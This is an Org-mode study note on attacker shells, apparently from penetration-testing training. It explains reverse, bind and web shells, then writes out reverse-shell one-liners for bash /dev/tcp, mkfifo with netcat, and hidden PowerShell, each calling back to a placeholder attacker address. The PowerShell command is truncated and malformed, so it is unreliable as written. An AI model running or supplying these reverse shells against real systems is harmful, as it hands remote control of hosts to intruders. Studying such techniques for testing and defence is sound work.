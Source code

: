 :PROPERTIES:
:ID:       47E30BCE-66A0-4A16-ACEE-E6D3C457AE3F
:END:
#+title: Types of shells
#+filetags: 
#+date: [2023-10-11 Wed 20:15]

Once we compromise a system and exploit a vulnerability to execute commands on the compromised hosts remotely, we usually need a method of communicating with the system to not have to keep exploiting the same vulnerability over an over. To [[id:F2DBC35D-8597-4FB2-BF3B-BB99F79D6DA7][enumerate]] the system or take further control over the network. We need a reliable connection that gives us direct acess to the system's [[id:EF5DF000-3E20-4493-9546-D1D3A8C86E11][Shell]]. 

One way to connect to a compromised system is through network protocols, like [[id:6F94B596-3774-4ECA-A902-13447807BB11][SSH]] or [[id:FE983009-CEBF-47F1-ADB7-358D74CE343F][WinRM]]

| Shell   | Method Of Communication                                              |   |
| Reverse | Connects back to our system and gives control through a reverse conn |   |
| Bind    | Waits for us to connect to it and gives us control                   |   |
| Web     | Communicates through a web server through                            |   |
|         |                                                                      |   |

* Reverse Shell
** Making the connection
*** Starting 
#+begin_src bash
bash -c 'bash -i >& /dev/tcp/<ip address>/<port number> 0>&1'
#+end_src>

#+begin_src bash
rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <ip address> <port number> >/tmp/f
#+end_src>

#+begin_src powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip address>",<port number>);$stream = $client.GetStream();[byte[]]
#+end_src>
